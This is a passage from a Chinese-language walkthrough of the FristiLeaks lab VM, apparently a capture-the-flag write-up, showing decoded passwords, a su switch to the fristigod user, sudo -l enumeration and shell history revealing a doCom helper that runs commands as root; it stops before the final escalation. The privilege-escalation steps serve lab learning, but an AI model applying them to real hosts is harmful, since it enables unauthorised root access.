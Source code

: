 ```bash
┌──(root💀kali)-[~/FristiLeaks]
└─# python decoderot13.py mVGZ3O3omkJLmy2pcuTq
b'thisisalsopw123'

┌──(root💀kali)-[~/FristiLeaks]
└─# python decoderot13.py =RFn0AKnlMHMPIzpyuTI0ITG                   
b'LetThereBeFristi!'
```

`LetThereBeFristi!`  可能就是 `fristigod` 用户的 密码

```bash
[admin@192 ~]$ ls /home
ls /home
admin  eezeepz  fristigod
```

```bash
[admin@192 ~]$ su fristigod
su fristigod
Password: LetThereBeFristi!

bash-4.1$ whoami
whoami
fristigod
```

### 提权到root

8、查看sudo可执行的文件，重点是 `/var/fristigod/.secret_admin_stuff/doCom`

```bash
bash-4.1$ sudo -l
sudo -l
[sudo] password for fristigod: LetThereBeFristi!

Matching Defaults entries for fristigod on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User fristigod may run the following commands on this host:
    (fristi : ALL) /var/fristigod/.secret_admin_stuff/doCom
```

9、查看历史记录

查看历史可以发现使用这个可执行文件可以**以root身份执行命令**

```bash
bash-4.1$ history
history
    1  ls
    2  pwd
    3  ls -lah
    4  cd .secret_admin_stuff/
    5  ls
    6  ./doCom 
    7  ./doCom test
    8  sudo ls
    9  exit
   10  cd .secret_admin_stuff/
   11  ls
   12  ./doCom 
```